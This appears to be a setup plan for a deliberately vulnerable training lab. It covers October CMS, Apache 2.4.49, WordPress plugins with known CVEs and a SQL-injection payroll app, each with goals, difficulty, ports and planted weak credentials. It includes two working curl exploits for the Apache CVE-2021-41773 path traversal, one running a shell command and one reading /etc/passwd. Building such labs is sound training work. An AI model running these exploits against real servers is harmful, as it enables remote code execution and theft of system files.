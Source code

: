 # October CMS
|Goal|Difficulty|Dependency|Comments|
|---|:-:|:-:|---|
|Login to app|2|Yes||

1. **tcp 8511**
2. Post deployment: go to **backend** and configure user and password.
3. password attack, username/password comes from credz

# Apache 2.4.49
|Goal|Difficulty|Dependency|Comments|
|---|:-:|:-:|---|
|Discover dir|1|No||
|LFI|2|Yes||
|RCE|4|Yes||
|Shell|4|Yes|extra-mile|

1. **tcp 8512**
2. Hidden dir, Apache 2.4.49 vuln: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) - [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
3. Provide hint about exploits in hidden dir

```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
# Wordpress w/vulnerable plugins
|Goal|Difficulty|Dependency|Comments|
|---|:-:|:-:|---|
|Auth bypass|4|No||
|LFI|3|No||
|RCE|3|No||
|Shell|4|No|extra-mile|

1. **tcp 8514**
2. WP latest: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). **Multiple CVEs in plugins**.
3. Weak admin password, change password to something from startrek.
4. Add a second admin with password from rockyou.
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)

# startrek payroll
|Goal|Difficulty|Dependency|Comments|
|---|:-:|:-:|---|
|SQLi|1|No|user() and database()|
|SQLi|1|No|dump database()|
|SQLi|3|No|extra-mile: hidden loot|

1. **tcp 8515** 
2. SQLi [thomaslaurenson/startrek_payroll](https://github.com/thomaslaurenson/startrek_payroll)
3. Credentials for **authenticated RCE in phpmyadmin 4.8.1** stored in adjacent database.
4. move app to hidden dir that requires long wordlist 
